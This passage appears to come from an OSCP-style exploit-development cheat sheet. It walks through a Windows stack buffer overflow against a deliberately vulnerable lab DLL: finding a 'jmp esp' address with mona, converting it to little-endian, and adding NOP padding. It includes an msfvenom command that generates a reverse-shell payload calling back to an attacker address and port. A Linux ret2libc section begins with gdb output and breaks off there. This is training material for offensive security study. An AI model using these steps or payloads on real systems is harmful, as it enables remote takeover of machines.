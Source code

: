 Find all "jmp esp" on the system `!mona jmp -r esp -cpb "\x00\x07\x2e\xa0"` 

{% hint style="warning" %}
**Remember**: **Don't Forget** to put the **BAD CHARS** founded.
{% endhint %}

```text
Log data, item 11
 Address=625011AF
 Message=  0x625011af : jmp esp |  {PAGE_EXECUTE_READ} [essfunc.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Users\admin\Desktop\vulnerable-apps\oscp\essfunc.dll)
```

{% hint style="info" %}
**REMBEMBER LITTLE ENDIAN** `\x62\x50\x11\xAF (system) -> \xAF\x11\x50\x62 (exploit)`
{% endhint %}

Put the adress on the "retn" variable. If the EIP is the same as ESP you success at jummping to ESP.

#### Generate the Payload

We will generate the payload with `msfvenom`, \(DON'T FORGET TO PUT THE BAD CHARS FOUNDED\)

`msfvenom -a x86 -p windows/shell_reverse_tcp LHOST=10.11.21.203 LPORT=4444 EXITFUNC=thread -b "\x00\x07\x2e\xa0" -f py`

{% hint style="info" %}
**Hint:** Using **EXITFUNC=thread** will only finish the thread once termintad the reverse shell without affecting the whole program. -&gt; NO DoS
{% endhint %}

Copy the generated payload ant integrate it into the `exploit.py`

#### Prepend NOPs

We will need some space in memory for the payload to unpack itself

`padding = "\x90" * 16`

## Linux 32 bits 

### Ret2Libc \(Localy\)

For that task we are going to use a Kali with `gdb-peda` installed:

#### Running the binary with GDB

```text
❯ gdb rop
GNU gdb (Debian 10.1-1.7) 10.1.90.20210103-git
Copyright (C) 2021 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
Type "show copying" and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<https://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
    <http://www.gnu.org/software/gdb/documentation/>.

For help, type "help".
Type "apropos word" to search for commands related to "word"...
Reading symbols from rop...
(No debugging symbols found in rop)

gdb-peda$ r "Hello World"
```